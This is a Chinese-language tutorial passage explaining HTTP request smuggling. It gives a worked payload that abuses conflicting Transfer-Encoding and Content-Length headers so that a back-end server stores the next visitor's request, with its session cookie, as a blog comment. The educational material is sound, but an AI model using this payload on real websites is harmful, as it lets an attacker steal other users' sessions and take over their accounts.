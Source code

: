 假设某个应用程序通过如下请求提交博客帖子评论，该评论将存储并显示在博客上：
```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

你可以执行以下请求走私攻击，目的是让后端服务器将下一个用户请求当作评论内容进行存储并展示：

<code>
    <span style="color:blue">
        GET / HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Transfer-Encoding: chunked<br>
        Content-Length: 324<br>
        <br>
        0<br>
    </span>
    <span style="color:orange">
        <br>
        POST /post/comment HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Type: application/x-www-form-urlencoded<br>
        Content-Length: 400<br>
        Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO<br>
        <br>
        csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&amp;postId=2&amp;name=Carlos+Montoya&amp;email=carlos%40normal-user.net&amp;website=https%3A%2F%2Fnormal-user.net&amp;comment=
    </span>
</code>

当下一个用户请求被后端服务器处理时，它将被附加到走私的请求后，结果就是用户的请求，包括会话 cookie 和其他敏感信息会被当作评论内容处理：

<code>
    <span style="color:orange">
        POST /post/comment HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Type: application/x-www-form-urlencoded<br>
        Content-Length: 400<br>
        Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO<br>
        <br>
        csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&amp;postId=2&amp;name=Carlos+Montoya&amp;email=carlos%40normal-user.net&amp;website=https%3A%2F%2Fnormal-user.net&amp;comment=</span><span style="color:green">GET / HTTP/1.1<br>
            Host: vulnerable-website.com<br>
            Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj<br>
            ...
    </span>
</code>
